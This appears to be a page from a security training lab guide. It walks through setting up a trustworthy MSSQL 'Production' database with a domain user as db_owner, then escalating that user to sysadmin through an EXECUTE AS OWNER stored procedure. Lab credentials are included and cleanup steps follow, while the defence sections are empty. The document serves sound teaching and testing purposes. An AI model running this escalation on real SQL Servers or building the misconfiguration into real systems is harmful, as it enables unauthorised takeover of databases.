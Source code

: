 # DB-Owner

## Configuring

### Prerequisite

{% content-ref url="../initial-access/normal-domain-user-access.md" %}
[normal-domain-user-access.md](../initial-access/normal-domain-user-access.md)
{% endcontent-ref %}

### Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open "Microsoft SQL Server Management Studio"

![](<../../../../.gitbook/assets/image (3) (1) (1).png>)

3\. Login with the `sa` user using the password `sa` or `Password1!` (Depending if you changed it for another vulnerability)

![](<../../../../.gitbook/assets/image (30) (1) (1) (1).png>)

4\. Click “New Query” button and use the SQL query below to make `Amsterdam\Richard` database owner of the `production` database.

![](<../../../../.gitbook/assets/image (10) (1) (2) (1).png>)

```
Use Production;
EXEC sp_addrolemember [db_owner], [AMSTERDAM\Richard];
```

5\. Change the Owner of the database to the SA account. Right click on "Production", click "Properties" and open the "Files" tab. Click on the "..." and fill in "sa" and click on "OK"

![](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png>)

6\. Execute the following query to make sure `Amsterdam\Richard` is Database owner and the real Owner of the database is `sa`:

```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)

SELECT suser_sname(owner_sid) FROM sys.databases WHERE name = 'Production'
```

![](<../../../../.gitbook/assets/image (68) (1) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (53) (1) (1) (1).png>)

7\. Set the database as trustworthy and check if it is:

```
ALTER DATABASE MyAppDb SET TRUSTWORTHY ON
```

![](<../../../../.gitbook/assets/image (65) (1) (1) (1) (1) (1) (1).png>)

```
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;
```

![](<../../../../.gitbook/assets/image (39) (1) (1) (1) (1) (1).png>)

The `1` after `Production` shows us that the database is `ThrustWorthy`.

## Attacking

### How it works

If the database is set as trustworthy and we have db\_owner privileges, we could elevate our privileges and execute queries as sa.

### Tools

* [HeidiSql](https://www.heidisql.com/)

### Executing attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Download and start heidiSQL.
3. Click on "New" on the left bottom and configure the following settings:

* Network Type: `Microsoft SQL Server (TCP/IP)`
* Library: `SQLOLEDB`
* Hostname / IP: `WEB01.amsterdam.bank.local`
* Select: "Use Windows Authentication"
* Port: `1433`

![](<../../../../.gitbook/assets/image (58) (1) (1) (1) (1) (1).png>)

4\. Click "OK" on the security Issue warning.

#### Prerequisites

5\. Click on the "Query" tab and enter the following Query to check if we are `db_owner`:

```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```

![](<../../../../.gitbook/assets/image (66) (1) (1) (1) (1) (1) (1) (1).png>)

Our current user `AMSTERDAM\richard` is db\_owner.

6\. Check who is the owner of the database.

```
SELECT suser_sname(owner_sid), * FROM sys.databases
```

![](<../../../../.gitbook/assets/image (59) (1) (1) (1) (1) (1).png>)

`sa` is the owner of the `production` database.

6\. Check if the database is set to trustworthy

```
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;
```

![](<../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png>)

The Production database is trustworty.

#### Executing the attack

7\. Create a stored procedure which will add `AMSTERDAM\Richard` as sysadmin.

```
USE Production;
CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'AMSTERDAM\Richard','sysadmin'
```

![](<../../../../.gitbook/assets/image (57) (1) (1) (1) (1).png>)

8\. Execute the stored procedure:

```
USE Production;
EXEC sp_elevate_me
```

![](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

9\. Check if we are sysadmin:

```
SELECT is_srvrolemember('sysadmin')
```

![](<../../../../.gitbook/assets/image (34) (1) (1) (1) (1) (1) (1) (1).png>)

The `1` means that we are sysadmin! Check the executing commands page under SQL Server Attacks to read how to execute cmd commands:

{% content-ref url="../executing-commands.md" %}
[executing-commands.md](../executing-commands.md)
{% endcontent-ref %}

#### Cleanup

1. Login to WEB01 as Administrator, start the "Microsoft SQL Server Management Studio" and login as Administrator.
2. Execute the following query:

```
EXEC sp_dropsrvrolemember 'AMSTERDAM\Richard','sysadmin';
DROP PROCEDURE sp_elevate_me;
```

## Defending

### Recommendations



### Detection



## References

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases" %}
